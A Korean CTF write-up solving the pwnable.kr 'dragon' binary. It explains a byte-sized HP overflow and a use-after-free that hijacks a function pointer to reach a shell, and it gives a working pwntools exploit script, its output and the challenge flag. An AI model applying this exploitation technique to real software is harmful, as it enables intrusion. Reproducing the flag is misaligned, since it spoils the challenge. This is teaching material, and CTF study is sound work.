









# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

서버에 접속하면 다음과 같이 dragon과 싸우는데 이겨야 FLAG를 얻을 것 같다.

```sh
E:\6.Utill\netcat\nc>nc pwnable.kr 9004
Welcome to Dragon Hunter!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
2
Baby Dragon Has Appeared!
[ Baby Dragon ] 50 HP / 30 Damage / +5 Life Regeneration.
[ Knight ] 50 HP / 0 Mana
        [ 1 ] Crash
                Deals 20 Damage.
        [ 2 ] Frenzy
                Deals 40 Damage, But You Lose 20 HP.
1
Crash Deals 20 Damage To The Dragon!
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!
... 생략 ...
```

바이너리 정보는 다음과 같다.

```sh
root@ubuntu:~# checksec dragon
[*] '/root/dragon'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Choose Your Hero를 고르는 값은 Getchoice라는 함수에서 입력받는다.



이때, 1 혹은 2이면 FightDragon함수로 들어가고 3이라면 SecretLevel이라는 함수로 들어간다.



SecretLevel에서는 문자열을 입력받고 Nice_Try_But_The_Dragons_Won't_Let_You!와 비교하지만, 10글자를 입력받기 때문에 진행될 수가 없다.



FightDragon함수를 살펴보자. 먼저 malloc함수를 통해 16byte 크기를 user, dragon에 할당한다.



그 이후 Count가 +1씩 증가하며 홀수이면 Baby dragon이, 짝수이면 Mama dragon이 나온다.

먼저 dragon의 구조는 다음과 같다.

||정보 출력 함수|id|HP|Life Regeneration|빈 값|빈 값|Damage|
|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|
|크기(byte)|4|4|1|1|1|1|4|



이 때, HP가 byte이기 때문에 127이 넘어가면 overflow가 일어나서 음수가 될 것이다.

dragon의 정보를 초기화할 때, HP의 초기 값을 127로 설정해서 진행해보자.


dragon의 정보 초기화가 진행 후 Hero의 정보를 초기화한다.



||id|HP|MP|정보 출력 함수|
|:---:|:---:|:---:|:---:|:---:|
|크기(byte)|4|4|4|4|

그 다음 각 Hero마다의 Attack함수로 들어가게 된다. 이때, 공격하지 않고, dragon의 HP를 overflow하기 위해 Priest의 HolyShield를 사용하자.

```sh
[ Priest ] 42 HP / 50 MP
        [ 1 ] Holy Bolt [ Cost : 10 MP ]
                Deals 20 Damage.
        [ 2 ] Clarity [ Cost : 0 MP ]
                Refreshes All Mana.
        [ 3 ] HolyShield [ Cost: 25 MP ]
                You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
```

그렇다면 dragon에게 할당된 주소가 free된다.



dragon을 이긴 후 16byte를 다시 malloc하는 데, 이때 기존 dragon의 데이터가 있던 주소로 할당되기 때문에 uaf가 터진다.

그리고 scanf로 16byte를 받기때문에 SecretLevel의 system함수를 호출하는 주소로 넣으면 쉘을 얻을 수 있을거라고 판단된다.



FLAG를 획득하자.

```python
from pwn import *

r       = remote('pwnable.kr', 9004)
shell   = 0x08048DBF

# For Mama dragon appear
r.recvuntil('Knight\n')
r.sendline('2')

r.recvuntil('Lose 20 HP.\n')
r.sendline('2')

# Mama dragon HP overflow
r.recvuntil('Knight\n')
r.sendline('1')

for i in range(4):
    r.recvuntil('Invincible.\n')
    r.sendline('3')
    r.recvuntil('Invincible.\n')
    r.sendline('3')
    r.recvuntil('Invincible.\n')
    r.sendline('2')

r.recvuntil('You As:\n')
r.sendline(p32(shell))
r.sendline("cat flag")
r.recvline()
print(r.recvline().decode())

[Output]
[x] Opening connection to pwnable.kr on port 9004
[x] Opening connection to pwnable.kr on port 9004: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9004: Done
MaMa, Gandhi was right! :)

[*] Closed connection to pwnable.kr port 9004
```

# **FLAG**

**MaMa, Gandhi was right! :)**